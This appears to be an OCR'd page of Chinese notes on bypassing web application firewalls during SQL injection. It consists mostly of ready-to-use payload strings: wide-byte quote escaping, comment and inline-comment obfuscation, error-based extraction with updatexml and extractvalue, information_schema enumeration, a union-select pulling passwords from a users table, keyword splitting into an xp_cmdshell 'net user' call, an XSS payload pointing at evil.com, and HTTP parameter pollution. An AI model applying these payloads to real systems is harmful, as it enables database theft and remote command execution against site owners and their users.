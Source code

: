 	Page.php?id=1%D6’%20AND%201=2%23
	
	对单引号转义操作变成\‘，那么就变成了%D6%5C’，%D6%5C构成了一个宽字节即Unicode字节，单引号可以正常使用。
	
	d)使用注释 （/**/代替空格、–、#）
	
	使用注释——普通注释
	
		常见的注释符号：//, — , /**/, #, –+,–  -, ;–a
		
		abc.com/index.php?page_id=-1 %55nION/**/%53ElecT 1,2,3,4
		‘union%a0select pass from users#
		/**/在构造的查询语句中插入注释规避对空格的依赖或关键字识别
		#、–+用于终结语句的查询
	
	使用注释——内联注释
	
		index.php?page_id=-1 /*!UNION*/ /*!SELECT*/ 1,2,3
		
		index.php?page_id=null%0A/**//*!50000%55nIOn*//*yoyu*/all/**/%0A/*!%53eLEct*/%0A/*nnaa*/+1,2,3,4…
		
		/*!content*/只有MySQL会正常识别content的内容

	e)等价函数与命令 （updatexml（，select语句）、extractvalue（，）、floor、）
	
	等价函数与命令——生僻函数
	
		MySQL/PostgreSQL支持XML函数
		
		Select UpdateXML(‘<script x=_></script> ‘,’/script/@x/’,’src=//evil.com’);
		
		?id=1 and 1=(updatexml(1,concat(0x3a,(select user())),1))
		
		SELECT xmlelement(name img,xmlattributes(1as src,’a\l\x65rt(1)’as \117n\x65rror));　//postgresql
		
		?id=1 and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables limit 1)));
	
	等价函数与命令——特殊符号
	
		1.使用反引号，例如select version()`，可以用来过空格和正则，特殊情况下还可以将其做注释符用
		
		2.神奇的”-+.”，select+id-1+1.from users; “+”是用于字符串连接的，”-”和”.”在此也用于连接，可以逃过空格和关键字过滤
		
		3.@符号，select@^1.from users; @用于变量定义如@var_name，一个@表示用户定义，@@表示系统变量
		
		4.Mysql function() as xxx  也可不用as和空格
		
		select-count(id)test from users;  //绕过空格限制
		
		例如关键字拆分：’se’+’lec’+’t’
		
		%S%E%L%E%C%T 1
		
		aspx?id=1;EXEC(‘ma’+’ster..x’+’p_cm’+’dsh’+’ell “net user”‘)

	f)使用特殊符号 （ –、# ）
		g)HTTP参数控制 （GET请求转换为POST请求）
		
		HTTP参数污染——HPP（HTTP Parameter Polution）
		
		HTTP又称做重复参数污染，对于?uid=1&uid=2&uid=3这种情况不同的Web服务器处理方式如下
		
		/?id=1;select+1&id=2,3+from+users+where+id=1—
		
